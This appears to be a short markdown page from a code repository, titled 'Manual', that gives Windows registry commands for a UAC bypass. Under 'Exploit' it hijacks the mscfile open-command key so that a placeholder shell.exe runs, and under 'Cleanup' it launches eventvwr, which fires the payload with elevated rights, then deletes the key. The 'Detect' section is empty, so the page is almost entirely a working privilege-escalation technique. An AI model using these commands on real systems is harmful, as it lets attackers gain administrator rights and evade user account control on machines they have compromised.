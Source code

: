 # Manual

## 01 - Detect

### 1.1 - Conditions

## 02 - Exploit

```
C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

## 03 - Cleanup

```
C:\> eventvwr

C:\> reg.exe delete "HKCU\SOFTWARE\Classes\mscfile" /f
```